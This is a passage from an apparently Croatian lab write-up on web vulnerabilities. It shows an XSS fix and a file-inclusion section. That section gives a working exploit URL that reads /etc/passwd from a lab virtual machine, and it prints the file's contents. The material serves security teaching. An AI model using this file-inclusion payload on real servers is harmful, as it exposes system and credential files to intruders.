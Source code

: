 ```java
// Reflected XSS fix
return "Hello " + htmlspecialchars(request.name);
```

---

## 4) Inkluzija datoteka (File Inclusion)

Ranjivost inkluzije datoteka iskorištavamo u kontekstu forme u kojoj je korisniku omogućeno biranje između raznih stranica koje direktno pokazuju na datoteku na datotečnom sustavu poslužitelja.

Na poslužitelju vjerojatno postoji implementacija slična ovoj:

```java
return fileio.read(request.page);
```

Poslužitelju se može predati direktna putanja do datoteke što ustvari ima sposobnost dohvatiti bilo koju čitljivu datoteku na datotečnom sustavu poslužitelja.

Maliciozan napadač ovim putem može prevariti poslužitelja i dobiti sadržaj datoteke `/etc/passwd` na poslužitelju. Priložen ispis je s našeg virtualnog stroja:

```java
// http://192.168.56.101/vulnerabilities/fi/?page=/etc/passwd
request.page = "/etc/passwd";
```

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false 
```

![Slika ekrana](file_inclusion.png)

